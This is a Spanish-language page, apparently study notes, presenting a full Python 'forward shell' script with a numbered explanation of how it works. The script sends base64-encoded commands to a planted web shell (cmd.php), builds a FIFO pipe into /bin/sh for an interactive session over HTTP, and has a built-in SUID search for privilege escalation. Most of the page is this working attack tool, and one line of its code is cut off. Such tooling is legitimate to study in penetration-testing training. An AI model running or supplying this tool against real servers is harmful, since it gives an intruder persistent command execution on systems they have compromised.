 ```python
#!/usr/bin/env python3

import requests
import time
import signal
import sys
from termcolor import colored
from base64 import b64encode
from random import randrange


def def_handler(sig,frame):
  print(colored(f"\n\n[!] Saliendo...", 'red'))
  my_forward_shell.remove_data()
  sys.exit(1)

signal.signal(signal.SIGINT, def_handler)


class ForwardShell():


  def __init__(self):
    session = randrange(1000,9999)
    self.main_url = "http://localhost/cmd.php"

    self.stdin= f"/dev/shm/{session}.input"
    self.stdout= f"/dev/shm/{session}.output"
    self.help_options = {'enum suid': 'FileSystem SUID Privileges Enumeration', 'help': 'Show t>
    self.is_pseudo_terminal=False

  def run_command(self, command):

    command = b64encode(command.encode()).decode()

    data = {
      'cmd' : 'echo "%s" | base64 -d | /bin/sh' %command
    }

    try:
      r= requests.get(self.main_url,params=data, timeout=5)
      return r.text
    except:
      pass


  def write_stdin(self, command):

    command= b64encode(command.encode()).decode()

    data ={
      'cmd': 'echo "%s" | base64 -d > %s' % (command, self.stdin)
    }

    requests.get(self.main_url, params=data)

  def read_stdout(self):

    for _ in range(5):
      read_stdout_command = f"/bin/cat {self.stdout}"
      output_command=self.run_command(read_stdout_command)
      time.sleep(0.2)

    return output_command

  def setup_shell(self):

    command = f"mkfifo %s; tail -f %s | /bin/sh 2>&1 > %s" % (self.stdin,self.stdin,self.stdout)
    self.run_command(command)

  def remove_data(self):
    remove_data_command= f"/bin/rm {self.stdin} {self.stdout}"
    self.run_command(remove_data_command)


  def clear_stdout(self):
    clear_stdout_command= f"echo '' > {self.stdout}"
    self.run_command(clear_stdout_command)

  def run(self):

    self.setup_shell()

    while True:
      command = input(colored(">> ", "yellow"))

      if "script /dev/null -c bash" in command:
        print(colored(f"\n[+] Se ha iniciado una pseudo-terminal\n", "blue"))
        self.is_pseudo_terminal = True

      if command.strip() == "enum suid":
        command = f"find / -perm -4000 2>/dev/null | xargs ls -l"

      if command.strip() == "help":
        print(colored(f"\n[+] Listando panel de ayuda:\n", "yellow"))

        for key,value in self.help_options.items():
          print(f"\t{key} - {value}")

        print("\n")
        continue

      self.write_stdin(command + "\n")
      output_command= self.read_stdout()

      if command.strip()== "exit":
        self.is_pseudo_terminal = False
        print(colored(f"\n[!] Se ha salido de la pseudo-terminal\n", "red"))
        self.clear_stdout()
        continue

      if self.is_pseudo_terminal:
        lines = output_command.split('\n')

        if len(lines) == 3:
          cleared_output = '\n'.join([lines[-1]] + lines[:1])
        elif len(lines) > 3:
          cleared_output = '\n'.join([lines[-1]] + lines[:1] + lines[2:-1])

        print("\n"+ cleared_output + "\n")

      else:
        print(output_command)

      self.clear_stdout()


if __name__ == '__main__':
  my_forward_shell = ForwardShell()
  my_forward_shell.run()						 						
```
-------------
## Explicación 

1. **Definición de Señal de Salida**:
    - La función `def_handler` captura señales de salida (como Ctrl+C) y ejecuta una limpieza para cerrar el programa de manera segura. Esto está conectado a `SIGINT`.
2. **Inicialización de la Clase `ForwardShell`**:
    - Define varias rutas de archivos temporales (`stdin` y `stdout`) en `/dev/shm` para manejar la entrada y salida de los comandos.
    - `main_url` es la URL de destino para los comandos en el servidor remoto.
3. **Ejecución de Comandos Remotos**:
    - `run_command` envía un comando codificado en base64 a la URL, donde se decodifica y ejecuta en el servidor.
    - El comando se envuelve en `base64` para evitar problemas de escape en la URL.
4. **Redirección de Entrada y Salida**:
    - `write_stdin` envía comandos a `stdin`, mientras que `read_stdout` lee la salida ejecutando `cat` en el archivo `stdout` repetidamente hasta obtener un resultado.
5. **Configuración y Limpieza**:
    - `setup_shell` crea un pipe FIFO que dirige la entrada hacia `/bin/sh`, redirigiendo la salida a `stdout`.
    - `remove_data` elimina archivos temporales (`stdin` y `stdout`) al salir.
6. **Bucle Principal de la Shell**:
    - Se utiliza un bucle `while` para leer comandos de usuario.
    - Comandos especiales como `enum suid` y `help` ofrecen opciones adicionales.
    - El comando `exit` permite salir de la pseudo-terminal, y el script limpia `stdout` después de cada comando.

Este script es una forma de ejecutar comandos en un servidor remoto de forma interactiva usando HTTP, con una estructura que facilita la entrada y salida de datos.